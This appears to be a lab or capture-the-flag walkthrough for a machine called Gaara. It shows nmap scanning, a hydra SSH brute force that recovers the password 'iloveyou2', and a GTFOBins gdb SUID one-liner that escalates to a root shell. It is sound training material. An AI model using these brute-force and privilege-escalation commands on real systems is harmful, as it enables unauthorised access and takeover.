

# Nmap
```bash
nmap -Pn -p- --open 192.168.225.142                                 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-04-15 19:28 +0000
Nmap scan report for 192.168.225.142
Host is up (0.11s latency).
Not shown: 65478 closed tcp ports (reset), 55 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```
```bash
nmap -A -T4 -p 80,22 --open 192.168.225.142


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 3e:a3:6f:64:03:33:1e:76:f8:e4:98:fe:be:e9:8e:58 (RSA)
|   256 6c:0e:b5:00:e7:42:44:48:65:ef:fe:d7:7c:e6:64:d5 (ECDSA)
|_  256 b7:51:f2:f9:85:57:66:a8:65:54:2e:05:f9:40:d2:f4 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Gaara
```


# Port 80

```bash
# No content except wallpaper
```

# Brute force attempt on the name "gaara"
```bash
hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://192.168.225.142

#Results
[22][ssh] host: 192.168.225.142   login: gaara   password: iloveyou2
```

## SSH as Gaara

```bash
ssh gaara@192.168.225.142
iloveyou2

#Grab local.txt
```

## Manual Enumeration

```bash
#Check SUID Binaries
find / -perm -u=s -type f 2>/dev/null

#Results
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/gdb
/usr/bin/sudo
/usr/bin/gimp-2.10
/usr/bin/fusermount
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/passwd
/usr/bin/mount
/usr/bin/umount

# Visted GTFOBins
```


#Priv Esc
```bash
#Ran the code provided by GTFOBins
gdb -nx -ex 'python import os; os.setuid(0)' -ex '!/bin/sh' -ex quit

#Root Achieved
# Grab proof.txt
```